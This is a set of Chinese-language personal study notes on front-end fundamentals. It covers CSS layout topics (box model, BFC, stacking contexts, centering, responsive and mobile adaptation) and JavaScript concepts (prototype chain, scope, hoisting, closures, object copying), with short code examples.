

### 盒模型
通过box-sizing设置
* content-box 标准模型
    * 宽高 = content ，不包括边框和padding
* border-box  IE模型
    * 宽高= content+ 边框border + padding

### JS获取宽高
* dom.clientHeight (content + padding) 是元素可视区域的高度，也就是说元素或窗口中可以看到内容的这个区域的高度 
* **dom.offsetHeight**  元素可视区域的高度 最佳 （content + padding + border）相较于页面边缘
* dom.style.height 只能获取内联样式
* **dom.getBoundingClientRect().width/height** 根据元素在视窗(**可视窗口**)中的位置来获取宽高的  （content+padding + border）
* getComputedStyle(dom).width/height 获得最后显示的**css样式**
* dom.currentStyle.width/height  页面渲染完成后的结果，就是说不管是哪种方式设置的样式，都能获取到。但这种方式只有**IE浏览器**支持

### 各种宽高
* offsetWidth  **content+padding2+border2** 该属性和其内部的内容是否超出元素大小无关，只和本来设定的border以及width和height有关
* clientWidth 元素的可视部分宽度和高度 **content + padding*2** 不包括滚动条
* scrollWidth 当元素内部的内容超出其宽度和高度的时候，元素内部内容的实际宽度和高度，包括滚动条

window.innerWidth 网页可视窗口宽度
window.outterWidth 整个浏览器窗口宽度

### 定位
* offsetLeft 
    * 相对于已定位元素（position为absolute或relative）的后代元素和一些其他元素（表格单元），这些属性返回的坐标是相对于祖先元素
    * 一般元素，则是相对于文档，返回的是文档坐标
* clientLeft 返回元素的内边距的外边缘和他的边框的外边缘的水平距离和垂直距离，读取元素的**border**的宽度和高度

### Touch Mouse 事件 对象 中的定位
表示一个触摸点，其属性包括 位置 压力 
```js
    screenX: 511, 
    screenY: 400,//触点相对于整个电脑屏幕左边沿的Y坐标
    clientX: 244.37899780273438, 
    clientY: 189.3820037841797,//相对于可视区域
    pageX: 244.37, 
    pageY: 189.37,//相对于HTML文档顶部，当页面有滚动的时候与clientX=Y 不等
    force: 1,//压力大小，是从0.0(没有压力)到1.0(最大压力)的浮点数
    identifier: 1036403715,//一次触摸动作的唯一标识符
    radiusX: 37.565673828125, //能够包围用户和触摸平面的接触面的最小椭圆的水平轴(X轴)半径
    radiusY: 37.565673828125,
    rotationAngle: 0,//它是这样一个角度值：由radiusX 和 radiusY 描述的正方向的椭圆，需要通过顺时针旋转这个角度值，才能最精确地覆盖住用户和触摸平面的接触面
    target: {} // 此次触摸事件的目标element
```

### 外边距折叠
* 父元素与其第一个或最后一个子元素之间,如果在父元素与其第一个子元素之间不存在**边框、内边距、行内内容**，以及**块级格式化作用域BFC**，**此时子元素的外边距会“溢出”到父元素的外面。**
* 相邻元素之间

* 即使某一外边距为0，这些规则仍然适用。因此就算父元素的外边距是0，第一个或最后一个子元素的外边距仍然会“溢出”到父元素的外面。
* 如果参与折叠的外边距中包含负值，折叠后的外边距的值为最大的正边距与最小的负边距（即绝对值最大的负边距）的和。
* 如果所有参与折叠的外边距都为负，折叠后的外边距的值为最小的负边距的值。这一规则适用于相邻元素和嵌套元素。

### 窗口大小
* window.innnerHeight 视口 看不同浏览器
* window.outerHeight 浏览器大小  看不同浏览器
* document.documentElement.clientHeight 视口 标准模式 html
* docunment.body.clientHeight 视口 混杂模式 body

### BFC 
[](https://www.cnblogs.com/lhb25/p/inside-block-formatting-ontext.html)
[](https://zhuanlan.zhihu.com/p/25321647)

块级格式化上下文，是一个独立的渲染区域，让处于 BFC 内部的元素与外部的元素相互隔离，使内外元素的定位不会相互影响。

具有 BFC 特性的元素可以看作是隔离了的独立容器，容器里面的元素不会在布局上影响到外面的元素，并且 BFC 具有普通容器所没有的一些特性。

生成BFC
* 根元素 body
* position:absolute / fixed
* overflow:hidden / scroll / auto
* float: 非none
* display: flex / inline-block

特性
* 同一个BFC内的外边距折叠 
* BFC内可以包含浮动
* BFC可以组织被浮动覆盖

应用
* 取消外边距的重叠
* 清除浮动 
    * 防止子元素浮动导致父元素的塌陷
    * 防止被浮动元素覆盖

### 层叠上下文
[总](https://juejin.im/post/5b876f86518825431079ddd6)

[细](https://juejin.im/post/5d3486826fb9a07ea5682ac9)

生成层叠上下文
* 根元素 html
* position:relative absolute fixed && z-index:具体数值
* css3属性
    * 父元素 display:flex && 子元素 z-index:具体数值
    * opacity:不为1
    * transform:不为none

层叠顺序（包括普通元素和层叠上下文的比较），由小到大
* background/border
* z-index<0
* block
* float
* inline-block
* z-index=0/auto
* z-index>0

>如果产生了层叠上下文 那么比较其背景与子元素,没有的话就是普通元素 block

比较规则
* 同一个层叠上下文下的元素可以依照层叠顺序进行比较
* 不同层叠上下文的层叠等级按照由父元素的比较决定

> z-index:auto :元素不会建立一个新的本地堆叠上下文。当前堆叠上下文中新生成的元素和父元素堆叠层级相同。


### 居中布局

[flex](https://www.zhangxinxu.com/wordpress/2018/10/display-flex-css3-css/)
* justify-content 定义了浏览器如何分配顺着父容器主轴的弹性元素之间及其周围的空间。 flex内部 每一行 在水平方向上的位置
* align-content  flex内部 整个所有元素 在 父容器 垂直方向上的位置 属性定义了多根轴线的对齐方式。如果项目只有一根轴线（也就是只有一行），该属性不起作用。
* align-items  flex内部 每一列 在垂直方向上的位置

.parent {
    display: flex;
    justify-content: center; //水平居中
}

.parent {
    display: flex;
    align-items: center; //垂直居中
}


* 水平居中

    * 行内元素: text-align: center
    * 块级元素: margin: 0 auto
    * absolute + transform + left
    * flex + justify-content: center


* 垂直居中

    * 行内元素 :line-height: height
    * 块级元素 :absolute/relative + transform:translate + top
    * 块级元素 :flex + align-items: center
    * 块级元素 :table `<table> <tr> <td>12 </td> </tr> </table>`

```html
<table>
    <thead>
        <tr>
            <th colspan="2">The table header</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>The table body</td>
            <td>with two columns</td>
        </tr>
    </tbody>
</table>
```

* 水平垂直居中

    * absolute/relative + transform：translate + top + left
    * flex + justify-content + align-items
    * fixed/absolute margin:auto left:0 right:0 right:0 bottom：0

#### grid 
[](http://www.ruanyifeng.com/blog/2019/03/grid-layout-tutorial.html)

### 选择器优先级
当同一个元素有多个声明的时候，优先级才会有意义。

1. !important > 内联样式 > id > class(属性选择器[]、伪类 :) > 标签(伪元素) > 通配选择器 > 继承 > 默认
2. 如果优先级相同，后定义的优先级较高

选择器优先级
优先级是由 A 、B、C、D 四个类型的值来决定的，其中它们的值计算规则如下： 
1. 如果存在内联样式，那么 A = 1, 否则 A = 0; 
2. B 的值等于 ID选择器 出现的次数;
3. C 的值等于 类选择器 和 属性选择器 和 伪类(:hover) 出现的总次数; 
4. D 的值等于 标签选择器 和 伪元素 出现的总次数 。 
 如果上面优先级相同, 则写在后面的会覆盖前面的
5.  还有一些选择器如: *, +, >,:not() 等

> 通配选择器 相当于 0,0,0,0
> #selector[id] 属性选择器 + id选择器
在比较时，先比较A，再一次往后比较B，C，D
（1,0,0,0 > 0,99,99,99）
> 重复的 css selector, 其权重会被重复计算不会被计算到 css 的权重当中
[css选择器参考](./选择器.md)

可继承的CSS属性
* color
* font-size font-family font-weight 
* text-align 
* line-height

不可继承的属性
* margin padding
* border
* width height
* background

### display：none ,visibility=hidden, opacity=0 的区别
* display:none 
    * 不占用空间，
    * 会触发回流重绘，
    * 不触发点击事件，
    * 父节点及其子孙节点元素全部不可见，而且无论其子孙元素如何不屈地挣扎都无济于事。
* visibility=hidden 
    * 还是占了空间，
    * 只触发重绘，
    * 不触发点击事件
    * 子元素 设置 visibility:visable 还是可见
* opacity：0 
    * 占了空间，
    * 只触发重绘，
    * 触发点击事件
    * 父节点及其子孙节点元素全部不可见，而且无论其子孙元素如何不屈地挣扎都无济于事。

### position
* static 
* absolute  元素相对于 **static** 定位以外的第一个父元素进行定位的偏移，来确定元素位置。如果没有就是相对于body
* relative 相对自己原来的位置
* fixed 相对窗口的绝对定位定位
    * top bottom left right 是相对于最外边距的距离。（content + padding + border + margin）

### 浮动清除 （去除浮动影响，防止父级高度塌陷）
```css
<div class="outer">
  <div class="inner">1</div>
  <div class="inner">2</div>
  <div class="inner">3</div>
</div>

.inner{
    float:left
}
.outer::after{
    content: "";
    clear: both;
    display: block;    
}
```

* 通过增加尾元素清除浮动 :after / <br> : clear: both
    * clear:both 左右两侧均不能出现浮动元素

(::after 是css3提出的 和 :after相同 ，都是伪元素，作为已选中元素的最后一个**子元素**。为了兼容性 建议使用:after)

> clear 属性指定一个元素是否必须移动(清除浮动后)到在它**之前的浮动元素**下面。clear 属性适用于浮动和非浮动元素。用于非浮动元素时，margin折叠；用于浮动元素时，margin不折叠

> 为什么要设置 display:block ,而不能是 inline-block/inline，因为内联元素本身就是环绕浮动元素显示的，即使设置了clear也无效

```html
#clear{
  clear: both;
}
<div class="outer">
  <div class="inner">1</div>
  <div class="inner">2</div>
  <div class="inner">3</div>
  <div id="clear"></div>
</div>
```

* 创建父级 BFC 

```
.outer{
    overflow:hidden;
}
```
* 父级设置高度


### \<link\> 与 @import 的区别
* link功能较多，可以定义 RSS，定义 Rel 等作用，而@import只能用于加载 css
```html
<html>
    <head>
        <link rel="stylesheet" href="****.css" type="text/css">
    </head>
</html>
```

```html
<style>
    @import "***.css";
</style>
```

* 当解析到link时，页面会同步加载所引的 css，而@import所引用的 css 会等到**页面加载完**才被加载
* @import需要 IE5 以上才能使用
* link可以使用 js 动态引入，@import不行

### CSS预处理器(Sass/Less/Postcss)
* Less
* Sass
* postCSS

[less](https://juejin.im/post/5a2bc28f6fb9a044fe464b19)

### css动画
* transition 
    * transition-property: 产生动画效果的属性 all/..
    * transition-duration: 动画时间
    * transition-timing-function: 曲线 [设置运动曲线](http://cubic-bezier.com/#.17,.67,.83,.67) linear/..
    * transition-delay: 延迟 用于设计动画发生的顺序

transition需要明确知道，开始状态和结束状态的具体数值，才能计算出中间状态

#### transition的优点在于简单易用，但是它有几个很大的局限。
* transition需要事件触发，所以没法在网页加载时自动发生。
* transition是一次性的，不能重复发生，除非一再触发。
* transition只能定义开始状态和结束状态，不能定义中间状态，也就是说只有两个状态。

常用钩子: transitionend

#### animation
* animation
   * animation-name: 动画名称，对应 **@keyframes**
    * 动画属性
        * translate 
        * scale 
        * rotate 旋转
        * skew 倾斜转换
        * opacity
        * color
        * all (各种css属性都行 多个属性动画之间用逗号隔开)
   * animation-duration: 间隔
   * animation-timing-function: 
        * 曲线 cubic-bezier()
        * steps(number,position) 让动画不连续
            * number 动画分成几段
            * position ： start （从下一个阶段开始） end （从初始状态开始）
            [例子](../transition.html)
   * animation-delay: 延迟
   * animation-iteration-count: 次数
        * infinite: 循环动画
   * animation-direction: 方向
        * alternate: 交替播放 
        * reverse ：反向播放
        * alternate-reverse 
   * animation-fill-mode: 静止模式
        * forwards: 停止时，保留最后一帧
        * backwards: 停止时，回到第一帧
        * both: 同时运用 forwards / backwards
    * animation-play-state runing / paused 没有鼠标没有悬停时，动画状态是暂停；一旦悬停，动画状态改为继续播放

    ```
    div {
        animation: spin 1s linear infinite;
        animation-play-state: paused;
    }

    div:hover {
        animation-play-state: running;
    }
    ```

```
.my-boat{
    animation :1s run;
}

@keyframe run{
    0% { background: #c00; }
    50% { background: orange; }
    100% { background: yellowgreen; }
}
```
### pc端适配宽度
#### 宽度减小到一定 侧边栏消失
```css
@media (max-width: 960px)
.sidebar[data-v-4f8894a8] {
    display: none;
}
```

#### 宽度减小到一定比例 文章主题内容宽度随动
```css
@media (max-width: 960px)
.main-area[data-v-4f8894a8] {
    width: 100%;
}

@media (max-width: 600px)
.article-title[data-v-4f8894a8] {
    font-size: 2rem;
}
```

#### 图片保持固定宽高比
```js

<p class="image-container">
  
</p>


p.image-container { 
     width: 100%;  height: 0;  padding-bottom: 60%;  overflow: hidden;
     }
p.image-container img {  
    width: 100%;
    }

```

### 移动端不同设备的适配
#### 逻辑像素 设备独立像素 dip
反映在CSS/JS程序里面的像素点，一行用几个css px表示

#### 物理像素 
设备屏幕实际拥有的像素点，一行总共有几个像素点

#### width = device-width
* width 表示布局视口，也就是页面渲染时的宽度
* device-width 表示

#### initial-scale = 1/0.5
布局视口宽度 = 理想视口宽度（=device-width=屏幕的逻辑像素） / initial-scale = 实际像素数

* 布局视口 document.documentElement.clientWidth/Height 著作权归作者所有。
* 视觉视口 window.innerWidth/Height 会随着缩放改变
* 理想视口 设备的逻辑像素
* 屏幕的逻辑像素  也就是device.width screen.width

理想视口宽度通常为 屏幕的逻辑像素
#### window.devicePixelRatio
设备的像素比，设备上物理像素和设备独立像素的比例。也就是设备的实际像素与css中表示的一个像素的比例。

> 比如：一个手机屏幕物理像素宽度为640px,而在css中显示宽度为320px，所以像素比就是2。

对于像素比高的设备，可以进行缩放，或使用更分辨率更高的图片

#### @media
通过@media来获取设备的各种属性，根据设备属性的条件来应用不同的CSS

例：1px边框的适配

使用0.5px
```css
@media  (-webkit-min-device-pixel-ratio: 2){
        .c{
            border:0.5px solid red;
        }
    }
```

使用伪元素 + transform:scale
```css
.scale-1px{
  position: relative;
  border:none;
}
.scale-1px:after{
  content: '';
  position: absolute;
  top: 0;
  left: 0;
  border: 1px solid #000;
  -webkit-box-sizing: border-box;
  box-sizing: border-box;
  width: 200%;
  height: 200%;
  -webkit-transform: scale(0.5);
  transform: scale(0.5);
  -webkit-transform-origin: left top; //缩放的中心点
  transform-origin: left top;
}
```

viewport
```html
<html>
    <meta name='viewport' content="width=device-width, initial-scale=1, minimum-scale=1 ,maximum-scale=1,user-scalable=no">
</html>

<script>
    var viewport = document.querySelector(`meta[name='viewport']`)
</script>
```
1px 线
```css
@media  (-webkit-min-device-pixel-ratio : 2){
    .line{
        transform:scaleY(0.5)
    }
}
```

#### \<meta\> + rem 

* `name = 'viewport'`, 它提供有关视口初始大小的提示，仅供移动设备使用
* content
    * width	一个正整数或者字符串 device-width	以pixels（像素）为单位， 定义viewport（视口）的宽度。
    * height	一个正整数或者字符串 device-height	以pixels（像素）为单位， 定义viewport（视口）的高度。
    * initial-scale	一个0.0 到10.0之间的正数	定义设备宽度（纵向模式下的设备宽度或横向模式下的设备高度）与视口大小之间的缩放比率。
    * maximum-scale	一个0.0 到10.0之间的正数	定义缩放的最大值；它必须大于或等于minimum-scale的值，不然会导致不确定的行为发生。
    * minimum-scale	一个0.0 到10.0之间的正数	定义缩放的最小值；它必须小于或等于maximum-scale的值，不然会导致不确定的行为发生。
    * user-scalable	一个布尔值（yes 或者no）	如果设置为 no，用户将不能放大或缩小网页。默认值为 yes。

#### rem 
根据根元素（即html）的`font-size`来设置大小，比如html的字体大小设置为`16px`，那么`2rem = 32px`。

这里区分一下**em**，em是根据父元素的字体大小来设置的

#### 实现
1. 通过meta来进行缩放
2. 设置**html**的字体大小，后面的大小单位全都使用rem

```html
<meta name="viewport" content="initial-scale = 1,maximum-scale = 1,minimum-scale=1,user-scalable=no">
<script>  
            
    var viewport = document.querySelector("meta[name=viewport]");  
              //下面是根据设备像素设置viewport  
    if (window.devicePixelRatio == 1) {  
        viewport.setAttribute('content', 'width=device-width,initial-scale=1, maximum-scale=1, minimum-scale=1, user-scalable=no');  
    }  
     if (window.devicePixelRatio == 2) {  
       viewport.setAttribute('content', 'width=device-width,initial-scale=0.5, maximum-scale=0.5, minimum-scale=0.5, user-scalable=no');  
     }          
    var docEl = document.documentElement;  //document.body 也ok
    var fontsize = 10 * (docEl.clientWidth / 320) + 'px';  
    docEl.style.fontSize = fontsize;   
                
 </script>
```

对于文本的处理，希望在大屏上显示更多的字，而不是所有的屏幕上显示的字一样多

在`<html>`上添加 data-dpr 属性
```css
.selector {
    width: 2rem;
    border: 1px solid #ddd;
}
[data-dpr="1"] .selector {
    height: 32px;
    font-size: 14px;
}
[data-dpr="2"] .selector {
    height: 64px;
    font-size: 28px;
}
[data-dpr="3"] .selector {
    height: 96px;
    font-size: 42px;
}
```

* rem单位是根据根元素font-size决定大小，只要改变font-size的值，以rem为固定单位的元素大小也会发生响应式的改变

* 必须通过一段js代码控制font-size的大小
* 控制font-size的js代码必须放在在页面第一次加载完成之前，并且放在引入的css样式代码之前。

#### vw 
* 指定vw\vh相对与视口的宽高，由px换算单位成vw单位比较简单

* 兼容度不高
#

### 原型链
[原型/原型链/创建/继承](./js继承.md)
* 原型链是由原型对象组成，每个对象都有 `__proto__` 属性，指向了创建该对象的构造函数的原型（obj.prototype），`__proto__` 将对象连接起来组成了原型链。是一个用来实现继承和共享属性的有限的对象链。

原型链不会因为构造函数原型的变化而变化

* 属性查找机制: 当查找对象的属性时，如果实例对象自身不存在该属性，则沿着原型链往上一级查找，找到时则输出，不存在时，则继续沿着原型链往上一级查找，直至最顶级的原型对象Object.prototype，如还是没找到，则输出undefined；
* 属性修改机制: 只会修改实例对象本身的属性，如果不存在，则进行添加该属性，如果需要修改原型的属性时，则可以用: b.prototype.x = 2；但是这样会造成所有继承于该对象的实例的属性发生改变。


### class extends 继承 与 ES5 的区别
#### 原型链的不同
比如说 class A extends B，那么
```js
A.prototype.__proto__ = B.prototype; //继承原型上的方法
A.__proto__ = B // 继承静态方法
```
而 ES5中
```js
A.prototype = new B();
A.prototype.constructor = B;

A.prototype.__proto__ === B.prototype
A.__ptoto__ = Function.prototype
```
#### new 一个实例的不同
extends 在生成实例时，因为子类自己的this对象，必须先通过父类的构造函数完成塑造，得到与父类同样的实例属性和方法，然后再对其进行加工，加上子类自己的实例属性和方法。如果不调用super方法，子类就得不到this对象。

es5 在new的过程中会先生成实例对象this，再调用 父类的构造函数（`super.call(this)`），最后将子类实例属性添加到this上，并返回this

#### extends 支持原生构造函数
**原生构造函数的this无法绑定**，导致拿不到内部属性

ES6 允许继承原生构造函数定义子类，因为 **ES6 是先新建父类的实例对象this，然后再用子类的构造函数修饰this**，使得父类的所有行为都可以继承。

### 执行环境(执行上下文) EC  

**以下内容进行了更新，[具体参考](./执行环境_作用域链.md)**

#### 分类
* 全局执行环境 
    * 最外围的执行环境 全局执行环境 window对象
* 函数执行环境
    * 每个函数都有自己的执行环境
* eval执行环境 可以把调用上下文作为第二个参数传递给 eval


#### 变量对象 VO
* 每一个执行环境都有一个与之相关联的变量对象
* 其中保存着环境中所定义的 变量 和 函数

#### 活动对象 AO
* 变量对象被激活成为活动对象


#### this指向
函数运行时所在的环境
[原理上解释this指向 看底下评论](https://github.com/mqyqingfeng/Blog/issues/7) 还没看懂

[简单解释](http://www.ruanyifeng.com/blog/2018/06/javascript-this.html)

由于 JS 的设计原理: 在函数中，可以引用运行环境中的变量。因此就需要一个机制来让我们可以在函数体内部获取当前的运行环境，这便是this。
因此要明白 this 指向，其实就是要搞清楚 函数的运行环境，说人话就是，谁调用了函数。例如:

* obj.fn()，便是 obj 调用了函数，既函数中的 this === obj
* fn()，这里可以看成 window.fn()，因此 this === window

但这种机制并不完全能满足我们的业务需求，因此提供了三种方式可以手动修改 this 的指向:

* call: fn.call(target, 1, 2)
* apply: fn.apply(target, [1, 2])
* bind: fn.bind(target,1,2) 返回新函数 其中this指向target

例：
```js
function getUrl() {
    console.log(this.document.URL);
}

var pseudoWindow = {
    document: {
        URL: "I'm fake URL"
    },

    getUrl1: getUrl,

    getUrl2: function (callback) {
        callback();
        
        this.func = callback;
        this.func();
    }
};

getUrl();
pseudoWindow.getUrl1();
pseudoWindow.getUrl2(getUrl);
```

1. `getUrl()`相当于`window.getUrl`
2. `pseudoWindow.getUrl1() `其中this指向了`pseudoWindow`
3. `pseudoWindow.getUrl2(getUrl)`中
    * 对于`callback()`,调用函数生成了新的执行上下文，因为变量 `callback` 没有绑定到任何上下文，因此它相当于一个自由变量，它的上下文就指向了 `window` 对象
    * `this.func()`;调用函数生成了新的执行上下文，其中this指向`pseudoWindow`

### 作用域
上下文中声明的 变量和声明的作用范围
* 全局作用域 不带有声明关键字的变量，JS 会默认帮你声明一个全局变量
* 块级作用域(ES6) **javascrip没有块级作用域**
    * 用let声明 const （es6） 是必须有一个 { } 包裹：
    * let、const 没有变量提升且在同一个作用域不能重复定义（var声明的变量 也不能再用let、const重复声明）
* 函数作用域
* [词法作用域](https://github.com/mqyqingfeng/Blog/issues/3) 当我们要使用声明的变量时：JS引擎总会从最近的一个域，向外层域查找；
* 动态作用域 动态作用域，作用域是基于调用栈的，而不是代码中的作用域嵌套；
    * js是词法作用域 除了this引用

```js
for(let i = 0; i < 5; i++) {
    setTimeout(function() {
      console.log(i);
    }, 200);
};
//for (let x...)的循环在每次迭代时都为x创建新的绑定 相当于下面的例子,并且产生了闭包
var a = [];
{ var k;
    for (k = 0; k < 10; k++) {
      let i = k; //注意这里，每次循环都会创建一个新的i变量
      a[i] = function () {
        console.log(i);
      };
    }
}
```
**设置循环变量的那部分是一个父作用域，而循环体内部是一个单独的子作用域**。


上面代码中，变量i是let声明的，当前的i只在本轮循环有效，所以每一次循环的i其实都是一个新的变量，所以最后输出的是6。你可能会问，如果每一轮循环的变量i都是重新声明的，那它怎么知道上一轮循环的值，从而计算出本轮循环的值？这是因为 JavaScript 引擎内部会记住上一轮循环的值，初始化本轮的变量i时，就在上一轮循环的基础上进行计算。for循环还有一个特别之处，就是设置循环变量的那部分是一个父作用域，而循环体内部是一个单独的子作用域


#### 作用域链
执行上下文中包含作用域链。指向变量对象的指针列表
当代码在**一个环境中**执行时，会创建变量对象的**一个作用域链**，变量对象激活了变成活动对象
* [[ scope ]] 指向父级变量对象和作用域链
* 自身活动变量

例：
```js
var x = 10;

function a() { console.log(x); }

function b () { var x = 5; a(); }

b();    //10

var x =10;
function b(){
    var x = 5;
   (function (){
    console.log(x);
   })()
}
b();    //5

```
* 函数声明
    * 生成变量对象
    * 函数中的 \[\[ scope \]\] 保存所有上层对象的变量对象（所有父变量对象的层级链）
* 函数执行
    * 生成执行环境 （包括活动对象和作用域链）
        * 作用域链 = 当前活动对象 +  [[ scope ]]
        * 变量对象 激活 为活动对象

>作用域链的非自己部分在函数对象被建立（函数声明、函数表达式）的时候建立，而不需要等到执行

>作用域链的前面部分是静态的，所有函数共享同一个链，当函数执行时，建立一个自己当次执行的作用域，然后把这个作用域与前面共享的链关联起来

#### 代码执行过程:

* 创建 全局上下文 (global EC)
* 全局执行上下文 (caller) 逐行 自上而下 执行。遇到函数时，函数执行上下文 (callee) 被* push到执行栈顶层
* 函数执行上下文被激活，成为 active EC, 开始执行函数中的代码，caller 被挂起
* 函数执行完后，callee 被pop移除出执行栈，控制权交还全局上下文 (caller)，继续执行
* 执行到最后，执行环境栈中只有全局执行上下文，等到应用程序结束才会销毁


#### 声明提前: 
* this，arguments
* 形参
* 函数
    * 一个声明在函数体内都是可见的, 函数优先于变量
    * 匿名函数 赋值式声明定义，`var a =function(){}` 声明和定义不会提前
    * 非赋值非匿名式声明定义，`function a(){}` 声明和定义都会提前
    * 非匿名自执行函数，函数变量 为 只读 状态，无法修改 ？？？
    ```js
    let foo = function() { console.log(1) };
    (function foo() {
    foo = 10  // 由于foo在函数中只为可读，因此赋值无效
    console.log(foo)
    }())    
    // 结果打印：  ƒ foo() { foo = 10 ; console.log(foo) }
    ```
* 变量
    * var 变量的声明会提前 **赋值不会提前**
    * let，const声明的变量不会提前。let，const声明的变量不能在声明之前被使用，在作用域里定义赋值之前的部分会对该变量形成一个“**暂时性死区**”，也就是认为该变量不存在，也不可使用。在死区内使用该变量就会报错——即，后两个题目都会报错

* 优先级 this,arguments > 形参 > 函数 > 变量
       
例：
```js
var a = 1;
{
    consloe.log(a); //报错  ReferenceError
    let a ;
}


function testOrder(arg) {
    console.log(arg); // arg是形参，不会被重新定义
    console.log(a); // 因为函数声明比变量声明优先级高，所以这里a是函数
    var arg = 'hello'; // var arg;变量声明被忽略， arg = 'hello'被执行
    var a = 10; // var a;被忽视; a = 10被执行，a变成number
    function a() {
        console.log('fun');
    } // 被提升到作用域顶部
    console.log(a); // 输出10
    console.log(arg); // 输出hello
}; 
testOrder('hi');
/* 输出：
hi 
function a() {
        console.log('fun');
    }
10 
hello 
*/
```
#### IIFE（立即调用函数表达式）
函数内部的变量用域独立的作用域，这不仅避免了外界访问此 IIFE 中的变量，而且又不会污染全局作用域。
```js
(function(){
    statement
})()
```

```js
(function b(){
    b=20;
    console.log(b);
})()
```
在不赋值的情形下，在小括号中的函数或者函数表达式，被阻止声明为一个全局的变量，同时其内部是可执行的

#### 什么是 Function Expression（函数表达式）？
Function Expression 将函数定义为表达式语句（通常是变量赋值）的一部分。通过 Function Expression 定义的函数可以是命名的，也可以是匿名的。Function Expression 不能以“function”开头（下面自调用的例子要用括号将其括起来）。


### 函数
* 函数声明  声明提前
* 函数表达式 不会声明提前

#### arguments
arguments是一个类数组，并不是真正的数组

arguments.callee 指向正在执行的函数

转化为数组的方法：
```js
Array.prototype.slice.apply(arguments);
arguments = [...arguments]
```
#### 匿名函数
匿名函数在执行过程中的this一般指向window

### 闭包
[闭包实现原理](https://www.zhihu.com/question/36393048)

**定义：有权访问另一个函数作用域中的变量的函数。**

闭包有权访问另一个函数作用域中的变量的函数。它的定义可以理解为: 父函数被销毁 的情况下，返回出的子函数的`[[scope]]`中仍然保留着父级的变量对象和作用域链，因此可以继续访问到父级的变量对象，**除了this和arguments**这样的函数称为闭包。

因为匿名函数的作用域链仍然在引用父级的活动对象，导致父级活动对象在其执行上下文被销毁，作用域链被销毁之后，仍然还留在内存中。

多个子函数的\[\[scope\]\]都是同时指向父级，是完全共享的。因此当父级的变量对象被修改时，所有子函数都受到影响。

* 为了避免这种情况
    * 变量可以通过 函数参数的形式 传入，避免使用默认的\[\[scope\]\]向上查找 
        * (function(msg){
            return function(){console.log(msg);}
        })(i)
    * 使用setTimeout包裹，通过第三个参数传入
        * 第三个参数及以后的参数都可以作为func函数的参数
    
    * 使用 块级作用域，让变量成为自己上下文的属性，避免共享
        for(let i;i<3;i++)
```js
function setData(){
    var data = [];
    for(var i=0;i<3;i++){
        data[i] = (function(i){
            return function(){
                 console.log(i);
            }
        })(i);             
    }
    return data;
}
var data = setData();
data[1]();

for (var i = 0; i < 3; i++) {
  setTimeout((msg)=>{
    data[msg] = function(){
        console.log(msg);
    }
  },0,i)
}
```

> (function(){})() function外面的括号是将函数声明转化为函数表达式，所以才可以立即执行
    
#### 模仿块级作用域
```js
 (function(){
     //这里是块级作用域
 })()
 ```
###堆 栈
基础数据类型保存在栈中，复杂的数据类型保存在堆中，但是保存复杂数据内存地址的变量保存在栈中


### 私有变量
#### 每个实例维护自己的私有变量方法和特权方法和变量 
```js
function People(name){
    var money = 1000;   //私有变量和方法
    var pay = function(){

    };

    this.setMoney = function(x){ //特权方法和变量
        money = x; //闭包

    }
    this.payMoney = function(x){
        money = money - x;
        pay();
    }
    this.name = name;
}
var nire = new People('nire');

```

#### 多个实例共享私有变量和方法 以及特权方法
```js
(function People(){
    var money = 1000;   //私有变量和方法
    var pay = function(){
    };

    x = function(name){ //作为全局变量
        this.name = name;
    };
    x.prototype.setMoney = function(x){ //特权方法
        money = x;
    }
    x.prototype.getMoney(){
        return money;
    }
})()
var nire = new x('nire');
```

#### 模块模式 （单例）
返回的对象都是Object实例
```js
function People(){
    var money;

    return {
        name:'nire',
        getMoney:function(){
            return money;
        },
        setMoney:function(x){
            money = x;
        }
    }
}
var nire = People();
```

#### 增强的模块模式
设置返回对象的类型
```js
function People(name){
    this.name = name;
}

function single(){
    var money;

    var nire = new People('nire');
    nire.getMoney = function(){
            return money;
        },
    nire.setMoney = function(x){
            money = x;
        }

    return nire;
}
var nire = single();
```

 ### script 引入方式
 * html 静态`<script src="..." type="text/javascript">`引入 一般放在\<body>里的最后面
 * js 动态插入\<script>
 
 ```js
 function loadScript(url){
            var script = document.createElement('script');
            script.type = 'text/javascript';
            script.src = url;
            document.body.appendChild(script);
        }
loadScript('test.js');

function loadJsCode(code){
    var script = document.createElement('script');
    script.type = 'text/javascript';
    //for Chrome Firefox Opera Safari
    script.appendChild(document.createTextNode(code));
    //for IE
    //script.text = code;
    document.body.appendChild(script);
}
loadJsCode('alert(2)');

 ```


###  对象的拷贝

#### 对象属性的遍历
* for ... in 自身和**继承**的可枚举属性，不包含Symbol
* Object.assign 自身可枚举属性，**包含Symbol**
* Object.keys 自身可枚举属性，不包含Symbol
* JSON.stringify 自身可枚举属性，不包含Symbol

* Object.Object.getOwnPropertyNames 自身除 Symbol 的所有属性
* Object.getOwnPropertySymbols 自身的 Symbol 属性
* Reflect.ownKeys 自身所有属性

#### 普通的一个个复制属性
**for..in 会遍历当前对象以及原型链上的可枚举属性**
```
for(key in obj){     
    newobj[key] = obj[key];
}
```
* 原型上的属性在拷贝过后成为了实例上的属性，这不符合拷贝，我们需要精确的拷贝原始对象。
* for .. in 只能遍历 可枚举的属性，不可枚举的属性不能拷贝
* 如果原始对象中的一个属性本身就是一个对象，那么副本和原始对象之间将共享这个对象，从而使其各自的属性指向同一个对象。

#### 浅拷贝
* Object.assigh(目标对象，源对象..) 返回目标对象`var x = Objext.assign({},y)`
    * Object.assign() 方法用于将从一个或多个源对象中的所有可枚举的属性值复制到目标对象
    * 可以用于复制对象的方法
    * 原型链上的属性和不可枚举的属性不能复制  
    * 属性的值为对象 依旧只是引用
* 展开运算符 ...
    * 对象展开运算符让你可以通过展开运算符 (...) , 以更加简洁的形式将一个对象的可枚举属性拷贝至另一个对象
    * 对象字面量的展开操作符能将源对象中的可枚举的属性复制到目标对象上
```
let obj = {
  one: 1,
  two: 2,
}
 
let newObj = { ...z };
 
var x =[1,2,3];
var y = [...x];
```

#### 深拷贝
* 使用 JSON.parse(JSON.stringify(object)); 
